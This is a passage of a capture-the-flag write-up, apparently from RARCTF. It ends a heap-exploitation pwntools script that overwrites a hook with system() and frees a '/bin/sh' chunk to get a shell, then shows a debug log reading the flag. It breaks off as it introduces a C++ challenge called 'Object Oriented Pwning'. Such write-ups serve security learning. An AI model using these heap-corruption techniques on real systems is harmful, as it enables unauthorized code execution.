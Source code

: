 ```python
payload += 'A'*0x38
payload += flat(0x21, fh - 8, 0, 0, 0x41)
payload += 'A'*0x20
payload += p64(heap+0x2a0)
a(5, "web", "5", 0xe8, payload)

a(6, "web", "6", 0x18, "B"*0x18)
a(7, "web", "7", 0x18, "/bin/sh\x00"+p64(system))
d(7)

r.interactive()
```

```
[DEBUG] Received 0x12 bytes:
    'Created challenge!'
[DEBUG] Received 0x61 bytes:
    '\n'
    '1. Make Challenge\n'
    '2. Patch Challenge\n'
    '3. Deploy Challenge\n'
    '4. Take Down Challenge\n'
    '5. Do nothing\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '4\n'
[DEBUG] Received 0x12 bytes:
    'Challenge number: '
[DEBUG] Sent 0x2 bytes:
    '7\n'
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x23 bytes:
    'flag_0eff9e0ad1.txt\n'
    'lib\n'
    'unintended\n'
flag_0eff9e0ad1.txt
lib
unintended
$ cat f*
[DEBUG] Sent 0x7 bytes:
    'cat f*\n'
[DEBUG] Received 0x37 bytes:
    'rarctf{y0u_b3tt3r_h4v3_us3d_th3_int3nd3d...89406fae76}\n'
rarctf{y0u_b3tt3r_h4v3_us3d_th3_int3nd3d...89406fae76}
```

# Object Oriented Pwning
The c ++ source is distributed. The purpose of this task is to buy a `1000c` translator and say the flag if the animal type is `flag`. You can buy and sell Animals, but if you sell them normally, you just lose money.
